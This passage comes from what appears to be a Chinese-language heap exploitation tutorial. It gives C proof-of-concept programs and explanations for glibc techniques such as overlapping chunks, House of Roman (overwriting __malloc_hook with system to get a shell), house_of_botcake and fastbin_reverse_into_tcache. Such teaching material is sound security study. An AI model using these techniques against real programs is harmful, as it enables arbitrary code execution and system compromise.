fprintf(stderr, "\nchunk p3 从 %p 到 %p", p3, (unsigned char *)p3+malloc_usable_size(p3));
fprintf(stderr, "\nchunk p4 从 %p 到 %p", p4, (unsigned char *)p4+malloc_usable_size(p4));
fprintf(stderr, "\nchunk p5 从 %p 到 %p\n", p5, (unsigned char *)p5+malloc_usable_size(p5));
memset(p1,'A',real_size_p1);
memset(p2,'B',real_size_p2);
memset(p3,'C',real_size_p3);
memset(p4,'D',real_size_p4);
memset(p5,'E',real_size_p5);
fprintf(stderr, "\n释放掉堆块 p4，在这种情况下不会用 top chunk 合并\n");
free(p4);
fprintf(stderr, "\n假设 p1 上的漏洞，该漏洞会把 p2 的 size 改成 p2+p3 的 size\n");
*(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2;
fprintf(stderr, "\nfree p2 的时候分配器会因为 p2+p2.size 的结果指向 p4，而误以为下一个 chunk 是 p4\n");
fprintf(stderr, "\n这样的话将会 free 掉的 p2 将会包含 p3\n");
free(p2);
fprintf(stderr, "\n现在去申请 2000 大小的 chunk p6 的时候，会把之前释放掉的 p2 与 p3 一块申请回来\n");
p6 = malloc(2000);
real_size_p6 = malloc_usable_size(p6);
fprintf(stderr, "\nchunk p6 从 %p 到 %p", p6, (unsigned char *)p6+real_size_p6);
fprintf(stderr, "\nchunk p3 从 %p 到 %p\n", p3, (unsigned char *) p3+real_size_p3);
fprintf(stderr, "\np3 中的内容: \n\n");
fprintf(stderr, "%s\n",(char *)p3);
fprintf(stderr, "\n往 p6 中写入\"F\"\n");
memset(p6,'F',1500);
fprintf(stderr, "\np3 中的内容: \n\n");
fprintf(stderr, "%s\n",(char *)p3);
}
首先申请 5 个 chunk，分别是 p1，p2，p3，p4，p5
然后 free 掉 p4，此时 p2 的 size 是 0x3f0
更改掉 p2 的 size 为 0x7e0，直接把 p3 给包含进去
再次去 malloc 0x7e0 大小的 chunk p6 会把包含 p3 的 p2 给申请到，这样再去编辑 p6 的时候也可以编辑到 p3
mmap_overlapping_chunks
ubuntu16.04 glibc 2.23
#include <stdlib.h>
#include <stdio.h>
int main(){
int* ptr1 = malloc(0x10);
printf("这种技术依然是 overlapping 但是针对的是比较大的 (通过 mmap 申请的)\n");
printf("分配大的 chunk 是比较特殊的，因为他们分配在单独的内存中，而不是普通的堆中\n");
printf("分配三个大小为 0x100000 的 chunk \n\n");
long long* top_ptr = malloc(0x100000);
printf("第一个 mmap 块位于 Libc 上方： %p\n",top_ptr);
long long* mmap_chunk_2 = malloc(0x100000);
printf("第二个 mmap 块位于 Libc 下方： %p\n", mmap_chunk_2);
long long* mmap_chunk_3 = malloc(0x100000);
printf("第三个 mmap 块低于第二个 mmap 块: %p\n", mmap_chunk_3);
printf("\n当前系统内存布局\n" \
"================================================\n" \
"running program\n" \
"heap\n" \
"....\n" \
"third mmap chunk\n" \
"second mmap chunk\n" \
"LibC\n" \
"....\n" \
"ld\n" \
"first mmap chunk\n"
"===============================================\n\n" \
);
printf("第一个 mmap 的 prev_size: 0x%llx\n", mmap_chunk_3[-2]);
printf("第三个 mmap 的 size: 0x%llx\n\n", mmap_chunk_3[-1]);
printf("假设有一个漏洞可以更改第三个 mmap 的大小，让他与第二个 mmap 块重叠\n");
mmap_chunk_3[-1] = (0xFFFFFFFFFD & mmap_chunk_3[-1]) + (0xFFFFFFFFFD & mmap_chunk_2[-1]) | 2;
printf("现在改掉的第三个 mmap 块的大小是: 0x%llx\n", mmap_chunk_3[-1]);
printf("free 掉第三个 mmap 块,\n\n");
free(mmap_chunk_3);
printf("再分配一个很大的 mmap chunk\n");
long long* overlapping_chunk = malloc(0x300000);
printf("新申请的 Overlapped chunk 在: %p\n", overlapping_chunk);
printf("Overlapped chunk 的大小是: 0x%llx\n", overlapping_chunk[-1]);
int distance = mmap_chunk_2 - overlapping_chunk;
printf("新的堆块与第二个 mmap 块之间的距离: 0x%x\n", distance);
printf("写入之前 mmap chunk2 的 index0 写的是: %llx\n", mmap_chunk_2[0]);
printf("编辑 overlapping chunk 的值\n");
overlapping_chunk[distance] = 0x1122334455667788;
printf("写之后第二个 chunk 的值: 0x%llx\n", mmap_chunk_2[0]);
printf("Overlapped chunk 的值: 0x%llx\n\n", overlapping_chunk[distance]);
printf("新块已与先前的块重叠\n");
}
当我们调用一个相当大的块的时候会用 mmap 来代替 malloc 获取一块单独的内存来替代普通的堆，释放的时候会用 munmap
一开始申请了 3 个 0x100000 大小的 此时的布局大概是这样的
running program
heap
....
third mmap chunk 0x7ffff780b010
second mmap chunk 0x7ffff790c010
LibC
....
ld
first mmap chunk 0x7ffff7ed7010
然后把第三个的 size 改成 0x202002，free 掉第三个，然后再去 malloc(0x300000)
新的在 0x7ffff770c010 第三个 0x7ffff780b010 大小 0x202002 第二个 0x7ffff790c010
现在在第三个上是 0x202000 大小的，接下来去申请 0x300000 大小的，因为前面已经有了 0x201000，所以多申请0xFF000 就够了 (0x7ffff780b010-0x7ffff770c010)

这样通过对新创建的堆块进行写操作就可以覆盖掉原本第二个那里
unsorted_bin_into_stack
ubuntu16.04 glibc 2.23
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
void jackpot(){ fprintf(stderr, "Nice jump d00d\n"); exit(0); }
int main() {
intptr_t stack_buffer[4] = {0};
fprintf(stderr, "先申请 victim chunk\n");
intptr_t* victim = malloc(0x100);
fprintf(stderr, "再申请一块防止与 top chunk 合并\n");
intptr_t* p1 = malloc(0x100);
fprintf(stderr, "把 %p 这块给释放掉, 会被放进 unsorted bin 中\n", victim);
free(victim);
fprintf(stderr, "在栈上伪造一个 chunk");
fprintf(stderr, "设置 size 与指向可写地址的 bk 指针");
stack_buffer[1] = 0x100 + 0x10;
stack_buffer[3] = (intptr_t)stack_buffer;
fprintf(stderr, "假设有一个漏洞可以覆盖 victim 的 size 和 bk 指针\n");
fprintf(stderr, "大小应与下一个请求大小不同，以返回 fake chunk 而不是这个，并且需要通过检查（2*SIZE_SZ 到 av->system_mem）\n");
victim[-1] = 32;
victim[1] = (intptr_t)stack_buffer;
fprintf(stderr, "现在 malloc 的时候将会返回构造的那个 fake chunk 那里: %p\n", &stack_buffer[2]);
char *p2 = malloc(0x100);
fprintf(stderr, "malloc(0x100): %p\n", p2);
intptr_t sc = (intptr_t)jackpot;
memcpy((p2+40), &sc, 8);
}
一开始申请了两个 chunk
free 掉第一个 chunk
然后修改掉它的 bk 指针指向在栈上伪造的 fake chunk，同时把这个的 size 给改掉，防止他 malloc 的时候申请到了这个而不是 fake chunk
接下来再去 malloc 的时候就可以申请到在栈上伪造的那个 chunk 了
unsorted_bin_attack
ubuntu16.04 glibc 2.23 UnsortedBin Attack
large_bin_attack
ubuntu16.04 glibc 2.23 largebin attack
house_of_einherjar
ubuntu16.04 glibc 2.23 House Of Einherjar
house_of_orange
ubuntu16.04 glibc 2.23 House of Orange
house_of_roman
ubuntu16.04 glibc 2.23
#define _GNU_SOURCE /* for RTLD_NEXT */
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <malloc.h>
#include <dlfcn.h>
char* shell = "/bin/sh\x00";
void* init(){
setvbuf(stdout, NULL, _IONBF, 0);
setvbuf(stdin, NULL, _IONBF, 0);
}
int main(){
char* introduction = "\n欢迎学习 House of Roman\n\n"
"这是一种无泄漏的堆利用技术\n"
"攻击分为三个阶段: \n\n"
"1. 通过低位地址改写使 fastbin chunk 的 fd 指针指向 __malloc_hook.\n"
"2. 通过 unsortedbin attack 把 main_arena 写到 malloc_hook 上.\n"
"3. 通过低位地址修改 __malloc_hook 为 one_gadget.\n\n";
puts(introduction);
init();
puts("第一步: 让 fastbin chunk 的 fd 指针指向 __malloc_hook\n\n");
puts("总共申请了 4 个 chunk，分别称为 chunk1、2、3、4，我感觉 chunk123 比一串英文更好记 Orz\n注意我们去 malloc 的时候指针所指向的类型是 uint8_t，实际上就是 char，一个字节\n");
uint8_t* chunk1 = malloc(0x60); //chunk1
malloc(0x80); //chunk2
uint8_t* chunk3 = malloc(0x80); //chunk3
uint8_t* chunk4 = malloc(0x60); //chunk4
puts("free 掉 chunk3，会被放进 unsorted bin 中，在他的 fd、bk 将变为 unsorted bin 的地址");
free(chunk3);
puts("这时候去 malloc 一个（chunk3_1），会从 unsorted bin 中分割出来，同时我们也拿到了 unsorted bin 的地址\n");
uint8_t* chunk3_1 = malloc(0x60);
puts("通过 unsorted bin 的地址计算出 __malloc_hook\n");
long long __malloc_hook = ((long*)chunk3_1)[0] - 0xe8;
free(chunk4);
free(chunk1);
puts("依次释放掉 chunk4、chunk1，后进先出，这时候 fastbin 链表是：fastbin 0x70 -> chunk1 -> chunk4\n");
puts("如果改掉 chunk1 的 fd 指针最后一个字节为 0，这个链表将会变为：fastbin 0x70 -> chunk1 -> chunk3_1 -> chunk3_1 的 fd\n");
chunk1[0] = 0x00;
puts("chunk3_1 的 fd 是我们可以修改掉的，通过修改后几位，将其改为 __malloc_hook - 0x23\n");
long long __malloc_hook_adjust = __malloc_hook - 0x23;
int8_t byte1 = (__malloc_hook_adjust) & 0xff;
int8_t byte2 = (__malloc_hook_adjust & 0xff00) >> 8;
chunk3_1[0] = byte1;
chunk3_1[1] = byte2;
puts("接下来连续 malloc 两次，把 fastbin 中的 chunk malloc 回去，再次 malloc 就能拿到一个指向 __malloc_hook 附近的 chunk（）\n");
malloc(0x60);
malloc(0x60);
uint8_t* malloc_hook_chunk = malloc(0x60);
puts("在真正的漏洞利用中，由于 malloc_hook 的最后半字节是随机的，因此失败了15/16次\n");
puts("第二步：Unsorted_bin attack，使我们能够将较大的值写入任意位置。 这个较大的值为 main_arena + 0x68。 我们通过 unsorted bin attack 把 __malloc_hook 写为 unsortedbin 的地址，这样只需要改低几个字节就可以把 __malloc_hook 改为 system 的地址了。\n");
uint8_t* chunk5 = malloc(0x80);
malloc(0x30); // 防止合并
puts("把 chunk 放到 unsorted_bin\n");
free(chunk5);
__malloc_hook_adjust = __malloc_hook - 0x10;
byte1 = (__malloc_hook_adjust) & 0xff;
byte2 = (__malloc_hook_adjust & 0xff00) >> 8;
puts("覆盖块的最后两个字节使得 bk 为 __malloc_hook-0x10\n");
chunk5[8] = byte1;
chunk5[9] = byte2;
puts("触发 unsorted bin attack\n");
malloc(0x80);
long long system_addr = (long long)dlsym(RTLD_NEXT, "system");
//这个 dlsym 是用来获得 system 地址的
puts("第三步：将 __malloc_hook 设置为 system/one_gadget\n\n");
puts("现在，__malloc_hook 的值是 unsortedbin 的地址，只需要把后几位改掉就行了\n");
malloc_hook_chunk[19] = system_addr & 0xff;
malloc_hook_chunk[20] = (system_addr >> 8) & 0xff;
malloc_hook_chunk[21] = (system_addr >> 16) & 0xff;
malloc_hook_chunk[22] = (system_addr >> 24) & 0xff;
puts("拿到 Shell!");
malloc((long long)shell);
}
编译 gcc -g 1.c -ldl
一开始 malloc 了 4 块 chunk（这里称为 chunk1\2\3\4）
free 掉 chunk3，因为它的大小不属于 fastbin 的范围，所以放到了 unsorted bin 中，所以他的 fd、bk 指针指向了 unsorted bin 的地址
再去 malloc 回来一个 0x60 大小的 chunk，会从之前的那个 unsorted bin 中划分出来（这块就叫 chunk3_1）
计算出 __malloc_hook 的地址，完全是根据偏移算出来的
free 掉 chunk4 和 chunk1 把 chunk1 的 fd 指针的末尾改为 0x00，这样它的 fd 指针就指向了 chunk3_1，同时把 chunk3_1 的 fd 从本来的 unsorted bin 的地址改为 __malloc_hook - 0x23
malloc 两次时候再去 malloc 的时候就会申请到修改的 fd 指针那里，也就是 __malloc_hook - 0x23 （这个 chunk 称为 malloc_hook_chunk）
再去 malloc 一个用 chunk5 来进行 unsorted bin attack（后面还申请一个 0x30 的防止与 top chunk 合并） free 之后修改 chunk5 的 bk 指针为 __malloc_hook - 0x10
然后 malloc 执行 unsorted bin attack，把 malloc_hook 改为 unsorted bin 的地址 （这么做应该是因为没法泄漏 libc 基址，所以通过这种方法把高位的几个字节直接放好，只修改后面的就行了）
修改低几个字节，把 system 或者 one_gadget 的地址通过前面的 malloc_hook_chunk 写入 __malloc_hook
这样 __malloc_hook 就是 system 的地址了，然后去 malloc 的时候就能拿到 shell 了
tcache_dup
ubuntu18.04 glibc 2.27 Tcache Attack
tcache_poisoning
ubuntu18.04 glibc 2.27 Tcache Attack
tcache_house_of_spirit
ubuntu18.04 glibc 2.27 Tcache Attack
house_of_botcake
ubuntu20.04 glibc 2.31
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>
int main(){
setbuf(stdin, NULL);
setbuf(stdout, NULL);
puts("house_of_botcake 是针对 glibc2.29 对 tcache double free 做出限制以后提出的利用方法");
intptr_t stack_var[4];
printf("我们希望 malloc 到的地址是 %p.\n\n", stack_var);
puts("malloc 7 个 chunk 以便稍后填满 tcache");
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
x[i] = malloc(0x100);
}
intptr_t *prev = malloc(0x100);
printf("malloc(0x100): prev=%p. 待会用\n", prev);
intptr_t *a = malloc(0x100);
printf("再 malloc(0x100): a=%p. 作为攻击的 chunk\n", a);
puts("最后 malloc(0x10) 防止与 top chunk 合并\n");
malloc(0x10);
puts("接下来构造 chunk overlapping");
puts("第一步: 填满 tcache 链表");
for(int i=0; i<7; i++){
free(x[i]);
}
puts("第二步: free 掉 chunk a，放入 unsorted bin 中");
free(a);
puts("第三步: 释放掉 chunk prev 因为后面是一个 free chunk，所以他会与 chunk a 合并");
free(prev);
puts("第四步: 这时候已经没有指向 chunk a 的指针了，从 tcache 中取出一个，然后再次 free(a) 就把 chunk a 加入到了 tcache 中，造成了 double free \n");
malloc(0x100);
free(a);
puts("再去 malloc 一个 0x120 会从 unsorted bin 中分割出来，也就控制了前面已经合并的那个 chunk a 了");
intptr_t *b = malloc(0x120);
puts("把 chunk a 的指针给改为前面声明的 stack_var 的地址");
b[0x120/8-2] = (long)stack_var;
malloc(0x100);
puts("去 malloc 一个就能申请到 stack_var 了");
intptr_t *c = malloc(0x100);
printf("新申请的 chunk 在：%p\n", c);
return 0;
}
这是 glibc2.29 对 tcache double free 做出限制以后提出的利用方法 程序定义了一个 stack_var，希望能够控制 malloc 到这里去 一开始先申请了 7 个 chunk，是为了能够天充满一个 tcache 链表 然后申请了一个 chunk prev 一个 chunk a，待会就会对 chunk a 进行 double free 首先把那 7 个给 free 掉，填满 tcache 链表
那接下来释放的 chunk a 会放到 unsorted bin 中
再去释放 chunk prev 的时候两个会合并
此时已经没有指向 chunk a 的了，malloc 一次从 tcache 中去除一个来
再去 free a 就能把 chunk a 放进 tcache 链表中
而 chunk a 已经跟 chunk prev合起来放在 unsorted bin 中了 当再去 malloc 一个比较大的（比如 0x120）会去 unsorted bin 中切割，因为本来 chunk prev 是 0x100，后面的属于 chunk a 的了，也就是 chunk overlapping 改掉了 chunk a 的 fd 指针

那去申请一个返回 chunk a，再申请的时候就是 chunk a 的 fd 指向的那里了，也就是 stack_var

tcache_stashing_unlink_attack
ubuntu18.04 glibc 2.27 Tcache Attack
fastbin_reverse_into_tcache
ubuntu18.04 glibc 2.27
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
const size_t allocsize = 0x40;
int main(){
setbuf(stdout, NULL);
printf("\n想要实现类似 unsorted bin attack 的效果\n\n");
char* ptrs[14];
size_t i;
for (i = 0; i < 14; i++) {
ptrs[i] = malloc(allocsize);
}
printf("首先 free 七次填满 tcache 链表\n\n");
for (i = 0; i < 7; i++) {
free(ptrs[i]);
}
char* victim = ptrs[7];
printf("接下来要释放的这个 %p 因为 tcache 已经满了，所以不会放到 tcache 里边，进入 fastbin 的链中\n\n",victim);
free(victim);
printf("接下来，我们需要释放1至6个指针。 这些也将进入fastbin。 如果要覆盖的堆栈地址不为零，则需要再释放6个指针，否则攻击将导致分段错误。 但是，如果堆栈上的值为零，那么一个空闲就足够了。\n\n");
for (i = 8; i < 14; i++) {
free(ptrs[i]);
}
size_t stack_var[6];
memset(stack_var, 0xcd, sizeof(stack_var));
printf("定义了一个栈上面的数组，我们打算修改的地址是 %p，现在的值是 %p\n",&stack_var[2],(char*)stack_var[2]);
printf("假设存在堆溢出或者 UAF 之类的漏洞能修改 %p 的 fd 指针为 stack_var 的地址\n\n",victim);
*(size_t**)victim = &stack_var[0];
printf("接下来 malloc 7 次清空 tcache\n\n");
for (i = 0; i < 7; i++) {
ptrs[i] = malloc(allocsize);
}
printf("下面输出一下 stack_var 的内容，看一下现在是啥\n\n");
for (i = 0; i < 6; i++) {
printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
}
printf("\n目前 tcache 为空，但 fastbin 不是，因此下一个分配来自 fastbin。另外，fastbin 中的 7 个块用于重新填充 tcache。这 7 个块以相反的顺序复制到 tcache 中，因此我们所针对的堆栈地址最终成为 tcache 中的第一个块。 它包含一个指向列表中下一个块的指针，这就是为什么将堆指针写入堆栈的原因。 前面我们说过，如果释放少于6个额外的指向fastbin的指针，但仅当堆栈上的值为零时，攻击也将起作用。 这是因为堆栈上的值被视为链表中的下一个指针，并且如果它不是有效的指针或为null，它将触发崩溃。 现在，数组在堆栈上的内容如下所示：\n\n"
);
malloc(allocsize);
for (i = 0; i < 6; i++) {
printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
}
char *q = malloc(allocsize);
printf("最后再分配一次就得到位于栈上的 chunk %p\n",q);
assert(q == (char *)&stack_var[2]);
return 0;
}
一开始 malloc 了 14 个 chunk，free 掉 7 个把 tcache 的链表填满
接下来 free 的 chunk 因为 tcache 已经满了，所以会放到 fastbin 的链表中，我们将第一个放入 fastbin 的 chunk 称为 victim
在栈上定义了一个数组，希望能 malloc 到这里，假设存在 UAF 或者堆溢出之类的漏洞，能够修改 victim 的 fd 指针为目标地址（即 stack_var）
然后连续 malloc 把 tcache 清空，再去 malloc 会从 fastbin 中取
同时会把 fastbin 链表按照相反的顺序插入到 tcache 中，这样 tcache 中的第一个就成了 victim 的 fd 指针指向的那个 stack_var[0]，同时 stack_var[0] 的 fd 指针为 victim 的地址
这时候再 malloc 回来的就是 stack_var[0]，而 stack_var[0] 的 fd 指针是 victim 的地址 最终实现的就是：目标地址的 fd+0x10 写上了一个堆的地址